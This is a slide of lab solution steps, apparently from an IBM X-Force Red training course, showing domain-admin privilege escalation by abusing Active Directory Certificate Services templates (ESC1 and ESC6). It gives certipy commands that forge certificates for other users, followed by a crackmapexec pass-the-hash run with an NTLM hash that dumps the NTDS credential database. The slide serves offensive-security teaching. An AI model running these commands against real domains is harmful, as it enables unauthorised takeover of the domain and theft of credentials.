

# DA Privilege Escalation > Lab 4 – Solution Continued
ADCS ESC 1
certipy req 'fmradio.local/backup:backup1@eagle-ca01.fmradio.local' -ca fmradio-EAGLE-CA01-CA-1 -template 'MacUsers' -alt 'rod@fmradio.local' -out pwned.pfx
certipy auth -pfx pwned.pfx.pfx -username rod -domain fmradio.local -dc-ip 172.16.14.200
cme smb 172.16.14.200  -u rod -H dd3a59abc33c6b677447c9917c268af9 --ntds
ADCS ESC 6
certipy req 'fmradio.local/backup:backup1@eagle-ca01.fmradio.local' -ca fmradio-EAGLE-CA01-CA-1 -template 'User' -alt 'Administrator@fmradio.local' -out pwned
certipy auth -pfx pwned.pfx -username Administrator -domain fmradio.local -dc-ip 172.16.14.200

IBM Security X-Force Red / © 2022 IBM Corporation
50